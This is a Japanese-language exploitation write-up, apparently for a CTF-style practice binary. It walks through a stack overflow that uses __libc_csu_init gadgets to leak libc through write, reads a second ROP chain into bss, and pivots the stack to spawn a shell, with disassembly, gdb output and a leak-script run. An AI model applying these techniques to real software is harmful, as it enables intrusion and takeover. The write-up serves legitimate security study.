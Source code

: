 # Case1
## Conditions
```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

## Writeup
- ASLRが有効なのでまずはlibcのアドレスを特定したい。そこでBOFによりwriteに飛ばして__libc_start_mainのアドレスを読み、
libc baseを特定する方針で行く。
- ただ、使えるROP gadgetの中にpop rdx; ret;がない。
- そこで__libc_csu_initを使う。これを使うことで任意の3引数関数が呼び出せる。
```asm
00000000004011b0 <__libc_csu_init>:
・・・
  4011f0:       4c 89 f2                mov    rdx,r14
  4011f3:       4c 89 ee                mov    rsi,r13
  4011f6:       44 89 e7                mov    edi,r12d
  4011f9:       41 ff 14 df             call   QWORD PTR [r15+rbx*8]
  4011fd:       48 83 c3 01             add    rbx,0x1
  401201:       48 39 dd                cmp    rbp,rbx
  401204:       75 ea                   jne    4011f0 <__libc_csu_init+0x40>
  401206:       48 83 c4 08             add    rsp,0x8
  40120a:       5b                      pop    rbx
  40120b:       5d                      pop    rbp
  40120c:       41 5c                   pop    r12
  40120e:       41 5d                   pop    r13
  401210:       41 5e                   pop    r14
  401212:       41 5f                   pop    r15
  401214:       c3                      ret    
```
- まず0x40120aにreturnしてスタックからレジスタに値をロード。rbx = 0, r15 = func_addr, r12 = arg1, r13 = arg2, r14 = arg, rbp = 1になるようにスタックを調整する。次に0x401214にあるret命令で0x4011f0に飛ぶ。これで連続して任意の3引数関数を呼び出せる。
- まずwrite(0, 0x403328, 8)を読んで__libc_start_mainのアドレスをGOT領域から読み、offsetを引くことでlibc baseを特定する。
- 次にread(1, bss+0x800, 400)を読んでbss+0x800の位置にROP chainを書き込む。bssのアドレスに0x800を足しているのはsystem関数用のスタック領域を確保するため。
- 最後にstack pivotでrspをbss+0x800に飛ばしてROP chainを実行させ、shellを起動する。

## Technique
- プログラムが使っているlibcのバージョンが分からない場合、offsetが分からないのでlibc_baseを特定することもROP chainを構築することもできない。しかし今回のようにread/writeが使える場合、任意のアドレスから任意のサイズ読み出すことが可能になる。libcのバージョン情報は.rodataセクションにあるのでここを読めばlibcのバージョンを特定することができる。
```gdb
gdb-peda$ find 'GNU C Library'
Searching for 'GNU C Library' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7f80b80 ("GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.9) stable release version 2.31.\nCopyright (C) 2020 Free Software Foundation, Inc.\nThis is free software; see the source for copying conditions.\nThere is NO wa"...)
```
```bash
$ python3 leak_libc_version.py OFFSET=120 LEAK_OFFSET=0x193bf0 LEAK_SIZE=0x10000
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
libc_start_main: 0x7ffff7decf90
leak_addr: 0x7ffff7f80b80
b'GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.9) stable release version 2.31...
```

## 参考
- ももいろテクノロジー「x64でROP stager + Return-to-dl-resolve + __libc_csu_init gadgetsによるASLR+DEP回避をやってみる」(https://inaz2.hatenablog.com/entry/2014/07/31/010158)